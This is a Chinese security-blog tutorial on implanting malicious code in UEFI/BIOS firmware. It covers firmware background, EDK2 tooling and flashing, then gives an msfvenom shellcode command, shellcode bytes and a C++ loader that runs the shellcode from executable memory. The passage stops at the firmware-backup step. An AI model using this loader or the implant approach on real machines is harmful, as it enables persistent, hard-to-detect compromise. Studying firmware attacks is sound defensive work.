







# 深入了解固件写马(UEFI.BIOS)-先知社区

> **来源**: https://xz.aliyun.com/news/16636  
> **文章ID**: 16636

---

**固件修改可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。**

**固件修改可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。**

**固件修改可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。**

**固件修改可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。**

**固件修改可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。**

本代码仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

# 零·环境准备

**1.一台VM以及合适的windows镜像（你也不想让你的电脑变砖吧）**

**2.编译环境**

**3.**[**https://www.nasm.us/pub/nasm/releasebuilds/2.16.03/win64/nasm-2.16.03-installer-x64.exe**](https://www.nasm.us/pub/nasm/releasebuilds/2.16.03/win64/nasm-2.16.03-installer-x64.exe)

* **安装NASM****：**
* **下载并安装NASM编译器，您可以从**[**NASM官网**](https://www.nasm.us/)**下载适合Windows的版本。**
* **安装完后，添加**`**NASM**`**的路径到环境变量中。**

* **例如，假设您将**`**NASM**`**安装在**`**C:\Program Files\NASM**`**，您需要将**`**C:\Program Files\NASM**`**添加到**`**PATH**`**环境变量中。**

* **设置**`**NASM_PREFIX**`**环境变量****：**
* **打开环境变量设置窗口（如上所述）。**
* **点击\*\*****新建**，然后设置\*\*`**NASM_PREFIX**`**环境变量，其值通常为：**

```
C:\Program Files\NASM
```

**4.**[**https://github.com/tianocore/edk2**](https://github.com/tianocore/edk2)

**5.**[**https://github.com/llvm/llvm-project/releases/tag/llvmorg-18.1.8**](https://github.com/llvm/llvm-project/releases/tag/llvmorg-18.1.8)

**6.**[**https://www.cygwin.com/setup-x86\_64.exe**](https://www.cygwin.com/setup-x86_64.exe)

**7.**[**https://www.python.org/ftp/python/3.9.13/python-3.9.13-amd64.exe**](https://www.python.org/ftp/python/3.9.13/python-3.9.13-amd64.exe)

**8.**[**https://codeload.github.com/google/brotli/zip/f4153a09f87cbb9c826d8fc12c74642bb2d879ea**](https://codeload.github.com/google/brotli/zip/f4153a09f87cbb9c826d8fc12c74642bb2d879ea)

**9.**[**https://codeload.github.com/MIPI-Alliance/public-mipi-sys-t/zip/370b5944c046bab043dd8b133727b2135af7747a**](https://codeload.github.com/MIPI-Alliance/public-mipi-sys-t/zip/370b5944c046bab043dd8b133727b2135af7747a)

**10.**[**https://codeload.github.com/openssl/openssl/zip/98acb6b02839c609ef5b837794e08d906d965335**](https://codeload.github.com/openssl/openssl/zip/98acb6b02839c609ef5b837794e08d906d965335)

**11.**[**https://codeload.github.com/Mbed-TLS/mbedtls/zip/8c89224991adff88d53cd380f42a2baa36f91454**](https://codeload.github.com/Mbed-TLS/mbedtls/zip/8c89224991adff88d53cd380f42a2baa36f91454)

# 一·了解BIOS/UEFI

### 1. **BIOS 和 UEFI 的基本概念**

* **BIOS（Basic Input/Output System）**:

* BIOS是计算机启动时运行的最早软件，它的作用是进行硬件初始化，并将控制权交给操作系统的引导程序。
* BIOS通常使用16位的代码，具有非常基础的功能，且通常只能通过MBR（主引导记录）分区方式来引导系统。
* BIOS的主要问题是限制较大，无法支持现代硬件（如大于2TB的硬盘）以及不能提供丰富的用户界面和图形功能。

* **UEFI（Unified Extensible Firmware Interface）**:

* UEFI是BIOS的继任者，提供了更为灵活和现代的固件接口。UEFI提供了图形用户界面（GUI）、更好的硬件兼容性和对大容量存储设备（大于2TB）和更快的启动速度的支持。
* UEFI能够支持64位代码执行，并支持直接从网络启动操作系统，因此能够提供更强大的功能和更高的性能。

### 2. **BIOS 和 UEFI 的关键区别**

|  |  |  |
| --- | --- | --- |
| 特性 | BIOS | UEFI |
| **启动方式** | 基于MBR（主引导记录）分区方式启动 | 支持GPT（GUID分区表）分区方式，支持UEFI启动分区（EFI System Partition） |
| **启动速度** | 启动速度较慢，由于使用了较老的引导方式 | 启动速度更快，支持更先进的引导过程 |
| **支持的硬盘大小** | 限制在2TB以内（MBR的限制） | 支持超过2TB的大容量硬盘（GPT的支持） |
| **界面** | 基本的文本模式界面 | 支持图形用户界面（GUI），可以更直观地配置 |
| **支持的硬件平台** | 仅支持16位或32位的启动代码 | 支持64位的启动代码，更强的硬件兼容性 |
| **驱动支持** | 无法直接加载操作系统的驱动 | 可以加载操作系统驱动，并支持更复杂的硬件设备 |
| **安全性** | 缺乏强大的安全功能，容易受到恶意软件攻击 | 提供更强的安全性，支持Secure Boot（安全启动） |
| **兼容性** | 只能引导老旧的操作系统（如Windows 7以前的版本） | 支持现代操作系统，如Windows 8/10/11，Linux等 |
| **固件大小** | 固件较小，通常在1MB以内 | 固件较大，可以支持更多功能，通常在几十MB以上 |

### 3. **启动过程的比较**

#### 传统BIOS启动过程

1. **开机**：计算机通电后，BIOS开始初始化硬件设备，如CPU、内存、显卡、硬盘等。
2. **MBR读取**：BIOS从硬盘的MBR（主引导记录）中读取引导代码，MBR包含了操作系统引导程序的指针。
3. **加载操作系统**：BIOS将控制权转交给操作系统的引导程序，操作系统开始加载。

#### UEFI启动过程

1. **开机**：计算机通电后，UEFI固件开始初始化硬件设备。
2. **EFI引导**：UEFI直接从EFI系统分区（ESP）加载操作系统引导程序。EFI分区存储了操作系统的启动文件，UEFI可以访问此分区来加载操作系统。
3. **操作系统引导**：UEFI加载操作系统引导程序，并将控制权交给操作系统。

### 4. **图示：BIOS和UEFI启动过程的对比**

* **BIOS启动过程**（基于MBR）：

```
+---------------------+
| Power On            |
+---------------------+
          |
          v
+---------------------+
| BIOS Initialization |
+---------------------+
          |
          v
+---------------------+
| Read MBR            |
+---------------------+
          |
          v
+---------------------+
| Load Bootloader     |
+---------------------+
          |
          v
+---------------------+
| OS Boot             |
+---------------------+
```

* **UEFI启动过程**（基于GPT）：

```
+---------------------+
| Power On            |
+---------------------+
          |
          v
+---------------------+
| UEFI Initialization |
+---------------------+
          |
          v
+---------------------+
| Read EFI Bootloader |
+---------------------+
          |
          v
+---------------------+
| OS Boot             |
+---------------------+
```

### 5. **总结和优缺点**

* **BIOS**：

* 优点：稳定、简单，兼容旧硬件。
* 缺点：启动速度慢、功能受限、对大硬盘支持不好。

* **UEFI**：

* 优点：启动速度快、支持大硬盘（>2TB）、图形化界面、支持更强的安全功能（如Secure Boot）。
* 缺点：兼容性可能会受限于较老的操作系统和硬件。

# 二·分辨BIOS/UEFI

ps.默认UEFI就行了(bushi)，为了防止某些古董产物，我还是做下说明

### 1. **在Windows中判断BIOS还是UEFI**

#### 方法1：通过系统信息查看

1. 按 `Win + R` 键打开“运行”对话框。
2. 输入 `msinfo32`，然后按回车，打开“系统信息”窗口。
3. 在“系统摘要”中，找到“BIOS 模式”项：

* 如果显示为 **UEFI**，则表示系统使用的是UEFI。
* 如果显示为 **传统**（或 **Legacy**），则表示系统使用的是BIOS。



#### 方法2：通过磁盘分区方式查看

1. 打开“命令提示符”或“PowerShell”。
2. 输入以下命令：

```
diskpart
```

3. 在`diskpart`工具中输入：

```
list disk
```

如果在“GPT”列下看到 `*` 标记，说明硬盘使用的是GPT分区，通常与UEFI配合使用。如果没有标记，说明硬盘使用的是MBR分区，通常与传统BIOS配合使用。



#### 方法3：通过“磁盘管理”查看

1. 按 `Win + X`，选择 **磁盘管理**。
2. 找到您的硬盘，右键点击硬盘，选择 **属性**。
3. 
4. 转到 **卷** 标签页，查看 **分区样式**：

* 如果分区样式是 **GUID分区表（GPT）**，则系统使用的是UEFI。
* 如果分区样式是 **主引导记录（MBR）**，则系统使用的是传统BIOS。



### 2. **在Linux中判断BIOS还是UEFI**

#### 方法1：通过查看 `/sys/firmware/efi` 目录

1. 打开终端。
2. 输入以下命令：

```
ls /sys/firmware/efi
```

```
- 如果该目录存在且包含文件，则系统使用的是UEFI。
- 如果该目录不存在，则系统使用的是传统BIOS。
```

#### 方法2：通过`dmesg`命令查看

1. 打开终端。
2. 输入以下命令：

```
dmesg | grep -i efi
```

```
- 如果输出包含有关EFI的信息，则说明系统是UEFI启动。
- 如果没有相关信息，说明系统是传统BIOS启动。
```

#### 方法3：通过查看分区表

UEFI通常使用GPT分区表，而传统BIOS使用MBR分区表。通过查看系统的分区表可以帮助判断：

1. 打开终端。
2. 输入以下命令：

```
sudo fdisk -l
```

```
- 如果输出中显示硬盘是 **GPT** 类型，则系统使用的是UEFI。
- 如果显示为 **MBR** 类型，则系统使用的是传统BIOS。
```

# 三·了解UEFI动作

### 1. **UEFI运行过程概述**

UEFI的工作过程从计算机加电开始，直到操作系统开始执行。以下是UEFI启动过程的关键步骤：

1. **上电和硬件初始化**：

* 计算机上电后，UEFI固件开始运行。UEFI会初始化硬件设备，如CPU、内存、硬盘、显卡、输入设备等。
* 与传统BIOS不同，UEFI支持更强的硬件检测和初始化，支持64位代码，并能访问更大的内存。

2. **加载驱动程序**：

* UEFI支持加载与硬件相关的驱动程序，这使得它能够更好地兼容新硬件，避免硬件兼容性问题。常见的硬件驱动程序如硬盘控制器、网络适配器驱动等。

3. **读取EFI系统分区（ESP）**：

* 在UEFI启动过程中，UEFI会读取硬盘上的EFI系统分区（ESP），该分区包含操作系统的启动加载器。ESP分区通常使用FAT文件系统。
* UEFI会检查此分区，读取启动引导程序（如Windows的`bootmgfw.efi`）并加载。

4. **启动操作系统**：

* UEFI加载操作系统的启动程序，并将控制权交给操作系统的引导程序。操作系统接管后，UEFI的任务完成，操作系统开始加载。

### 2. **UEFI启动过程的详细步骤**

UEFI的启动过程比传统的BIOS复杂且灵活。以下是一个简化的UEFI启动过程：

```
+-----------------------+
| Power On              |
+-----------------------+
           |
           v
+-----------------------+
| UEFI Initialization   |    <---- 1. 初始化硬件、加载驱动
+-----------------------+
           |
           v
+-----------------------+
| Read EFI System Part. |    <---- 2. 读取EFI系统分区
+-----------------------+
           |
           v
+-----------------------+
| Load Bootloader       |    <---- 3. 加载操作系统引导程序
+-----------------------+
           |
           v
+-----------------------+
| OS Boot               |    <---- 4. 将控制权交给操作系统
+-----------------------+
```

### 3. **UEFI的组成与原理**

UEFI的核心由多个组件组成，每个组件都负责不同的功能：

#### 核心组件：

1. **UEFI固件**：

* 负责系统的初始化和硬件自检。
* 可以是内置在主板上的固件或存储在闪存中的可编程芯片。
* 提供了一个可扩展的环境，支持不同操作系统的引导。

2. **EFI系统分区（ESP）**：

* 是UEFI系统的核心存储区域，通常是一个FAT32文件系统分区。
* 存储了操作系统的引导程序、UEFI驱动程序和固件设置。

3. **Bootloader（启动加载器）**：

* 启动加载器是一个特殊的可执行文件，它负责加载操作系统内核。
* 比如，在Windows中是`bootmgfw.efi`，在Linux中通常是`grubx64.efi`。

4. **EFI驱动程序**：

* 提供对硬件的支持，UEFI可以通过EFI驱动程序来控制硬件设备，如硬盘、显示器、网络等。

5. **Secure Boot（安全启动）**：

* 是UEFI提供的一种安全功能，用来防止操作系统加载未经认证的恶意代码。它通过验证引导加载器的签名来确保系统的安全。

### 4. **UEFI启动过程图解**

以下是UEFI启动过程的图示：

```
 +------------------+
  | Power On         |
  +------------------+
           |
           v
  +------------------+          +----------------------+
  | UEFI Firmware    |----+---->| Load Drivers/Configs |
  +------------------+          +----------------------+
           |                              |
           v                              v
  +------------------+          +----------------------+
  | EFI System Part. |----+---> | Load Bootloader      |
  +------------------+          +----------------------+
           |                              |
           v                              v
  +------------------+          +----------------------+
  | Execute Bootloader|<--------| OS Boot              |
  +------------------+          +----------------------+
```

### 5. **如何修改UEFI固件**

如果您想要修改UEFI固件（例如添加自定义功能、修改启动加载器等），可以按照以下步骤进行：

#### 1. **修改UEFI固件的源代码**

* UEFI的源代码通常是开放的，您可以通过访问开源项目（如[EDK2](https://github.com/tianocore/edk2)）获取。

#### 2. **编译并更新UEFI固件**

* 使用UEFI开发工具（如TianoCore EDK2）编译修改后的固件源代码。然后将编译得到的固件写入主板的UEFI闪存中。
* **注意**：修改UEFI固件可能会导致系统无法启动或损坏硬件。请在安全环境下进行，确保备份当前的固件并有恢复方案。

#### 3. **修改UEFI启动项**

* 您可以在UEFI固件中修改启动项（如添加自定义的操作系统或启动程序）。这可以通过UEFI设置界面或通过修改EFI系统分区来实现。

# 四·了解UEFI存储格式

### 1. UEFI固件文件格式

#### 1.1 **EFI可执行文件（.efi）**

* **.efi文件**是UEFI启动程序和驱动程序的主要格式。所有的UEFI应用程序和启动加载器都以`.efi`文件存储。

* 例如，Windows的启动加载器文件是`bootmgfw.efi`，Linux的GRUB引导程序是`grubx64.efi`。
* 这些`.efi`文件通常存储在EFI系统分区（ESP）中的`/EFI/`目录下。
* `.efi`文件是UEFI固件的核心文件格式，用于引导操作系统或加载驱动程序。

#### 1.2 **UEFI固件映像（.bin）**

* UEFI固件映像是一个二进制文件，包含了整个固件的内容。它包括了系统初始化、硬件驱动、引导加载器等。

* 这些固件映像通常存储在主板的闪存（如SPI闪存）中，或者通过更新工具进行更新。
* 固件映像文件（如`.bin`或`.rom`文件）用于编译和部署整个UEFI固件。

#### 1.3 **EFI系统分区（ESP）**

* EFI系统分区（ESP）是存储UEFI引导文件和操作系统引导程序的磁盘分区。ESP通常使用FAT32文件系统格式化。
* **ESP分区**上的文件包含了：

* 各种操作系统的启动程序（如`bootmgfw.efi`、`grubx64.efi`）。
* 固件更新工具（如`uefi_shell.efi`）。
* 驱动程序和其他UEFI工具。

### 2. **修改UEFI固件的步骤**

如果您想要修改UEFI固件，您可以通过以下步骤进行：

#### 步骤1：准备工作

1. **备份当前固件**： 在进行任何修改之前，强烈建议先备份当前的UEFI固件。如果修改失败，您可以恢复原有的固件，避免系统无法启动或硬件损坏。
2. **获取固件源代码**： UEFI固件源代码通常可以通过开源项目获取，如[TianoCore](https://github.com/tianocore/edk2)。

* TianoCore提供了UEFI固件开发工具包（EDK2），您可以基于这些源代码进行定制修改。

3. **选择合适的工具**：

* **UEFI编程工具**：使用`EDK2`（UEFI开发工具包）来开发和编译UEFI固件。
* **UEFI更新工具**：如`afuwin`（适用于AMI固件）或`fpt`（适用于Intel固件）等，可以用于更新固件。

#### 步骤2：修改固件代码

1. **修改UEFI固件源代码**：

* 如果您已经获取了UEFI固件的源代码（例如EDK2），您可以根据需求修改代码。这些代码通常使用C语言编写，并且需要编译成`.efi`文件格式。
* 常见的修改包括：

* 修改引导加载器（如添加或删除操作系统的引导程序）。
* 添加新的硬件驱动。
* 修改启动菜单项。
* 实现自定义功能，如网络引导、恢复模式等。

2. **编译固件**：

* 使用`EDK2`编译工具，将修改后的UEFI固件源代码编译成`.efi`文件或UEFI固件映像（`.bin`文件）。
* 具体的编译步骤依赖于您的开发环境，可以参考[EDK2官方文档](https://github.com/tianocore/edk2/wiki)进行设置。

#### 步骤3：将修改后的固件部署到设备

1. **更新UEFI固件**：

* 通过UEFI更新工具（如`afuwin`或`fpt`）将新的UEFI固件写入主板的闪存中。
* 如果您是修改启动程序（如添加自定义的引导程序），则将`.efi`文件拷贝到EFI系统分区的合适位置，并确保UEFI能够找到并执行该文件。

2. **修改EFI系统分区（ESP）**：

* 使用磁盘工具（如`diskpart`）或文件管理工具将修改后的`.efi`文件放入EFI系统分区的适当目录中。例如：

* `/EFI/BOOT/bootx64.efi`（用于x64架构的默认引导程序）。
* `/EFI/Microsoft/Boot/bootmgfw.efi`（Windows引导程序）。

#### 步骤4：测试和验证

1. **重启计算机**，确保修改后的UEFI固件能够正确加载。
2. **验证修改**：

* 如果修改了启动程序或引导菜单，确认新操作系统或自定义引导程序能够顺利加载。
* 如果启用了新的驱动程序或功能，测试它们的兼容性和稳定性。

### 3. **UEFI修改的常见文件格式**

|  |  |
| --- | --- |
| 文件格式 | 说明 |
| **.efi** | 这是UEFI启动程序、驱动程序的标准文件格式。常见的文件如`bootmgfw.efi` （Windows引导程序）、`grubx64.efi` （GRUB引导程序）。 |
| **.bin** | 这是UEFI固件映像的二进制文件格式。固件映像包含完整的固件代码，可以通过工具将其写入主板的闪存。 |
| **.rom** | 这种格式用于存储ROM固件映像，通常是自定义硬件固件或BIOS/UEFI更新文件的格式。 |
| **EFI System Partition（ESP）** | UEFI使用的分区格式，存储EFI引导程序、操作系统引导加载器、驱动程序等。通常格式化为FAT32。 |

# 五·修改

## 1.准备shellcode（kali/....）

```
msfvenom -p windows/x64/exec CMD="calc.exe" -f c
```



```
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

为了检测生成的shellcode是否适配这个电脑，我写了一个加载器，C++

code:(本文重点不是讲shellcode执行，代码不做说明)

```
#include <iostream>
#include <Windows.h>
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main() {
    void* exec_mem = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (exec_mem == NULL) {

        return -1;
    }
    memcpy(exec_mem, buf, sizeof(buf));
    void (*func)() = (void (*)())exec_mem;
    func();  
    return 0;
}
```

## 2. *备份固件*

**备份当前的UEFI固件**：在对UEFI进行任何修改之前，务必备份当前的固件。错误的修改可能会使计算机无法启动，因此必须能够恢复原始固件。

